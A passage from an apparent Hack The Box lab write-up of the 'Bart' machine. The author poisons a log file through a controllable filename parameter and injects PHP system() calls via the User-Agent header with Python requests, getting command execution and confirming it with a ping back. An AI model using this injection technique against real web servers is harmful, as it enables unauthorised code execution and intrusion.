 Since code analysis has been involved in completely all of the **Engagement** so far, I'm going to continue looking at it and find a script in **JS** from which a new **URL** is leaked. If I access it I get a **“1”** as output, so I start doing some tests with the **URL**, when I pass an invalid user value to the **username** parameter, I get a **“0”** as output. I deduce by the name of the script (`log.php`) and by the results of the tests that I am making, that perhaps the attack vector is a **[Log Poisoning](https://portswigger.net/web-security/web-cache-poisoning){:target="_blank"}**, it only remains to look for the way to engage the box. I also have the advantage of being able to access the file (`log.txt`) where the logs that I am generating are being stored.

```html
# [Ctrl+c] or [Ctrl+u]
# http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey

# http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey      # 1
# http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harve       # 0
# http://internal-01.bart.htb/log/log.php?filename=log.txt&username=daniel      # 1
# http://internal-01.bart.htb/log/log.php?filename=log.txt&username=samantha    # 0

# http://internal-01.bart.htb/log/log.txt                                       # Log Poisoning?
```

<br />
<img src="{{ site.img_path }}/bart_writeup/Bart_48.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bart_writeup/Bart_49.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bart_writeup/Bart_50.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bart_writeup/Bart_51.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

As I already made some **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** machines exploiting this vulnerability, I have some idea of **what to do**, the first thing I do is to check if I have control over the file where the logs are saved, and **if I do**, I can even pass with the **<ins>filename</ins>** parameter the name of the file where I want them to be saved. So I'm going to pass as name, a file with **.php** extension (to make sure that the server interprets the commands I'm going to inject) and then with `python` I'm going to send the requests (I could also use **BurpSuite**) and check if I have a **RCE**. The poisoning works correctly and I could also check that I have connectivity to the target machine.

```bash
# http://internal-01.bart.htb/log/log.php?filename=oldboy_test.txt&username=harvey
# http://internal-01.bart.htb/log/oldboy_test.txt                                     # :)

# http://internal-01.bart.htb/log/log.php?filename=oldboy.php&username=harvey
# http://internal-01.bart.htb/log/oldboy.php                                          # :)
# Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0  User-Agent

python3
  import requests
  headers = {'User-Agent':'<?php system("whoami"); ?>'}
  r = requests.get("http://internal-01.bart.htb/log/log.php?filename=oldboy.php&username=harvey", headers=headers)

# http://internal-01.bart.htb/log/oldboy.php
# nt authority\iusr       :)

  headers = {'User-Agent':'<?php system("ping 10.10.14.84");?>'}
  r = requests.get("http://internal-01.bart.htb/log/log.php?filename=oldboy.php&username=harvey", headers=headers)

tcpdump -i tun0 icmp -n

# http://internal-01.bart.htb/log/oldboy.php
```